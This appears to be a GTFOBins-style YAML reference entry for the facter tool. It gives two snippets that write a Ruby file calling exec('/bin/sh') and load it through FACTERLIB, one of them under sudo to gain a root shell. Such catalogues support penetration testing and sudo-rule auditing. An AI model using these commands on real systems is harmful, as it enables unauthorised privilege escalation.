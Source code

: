 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        FACTERLIB=$TF facter
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/bin/sh")' > $TF/x.rb
        sudo FACTERLIB=$TF facter
---
```

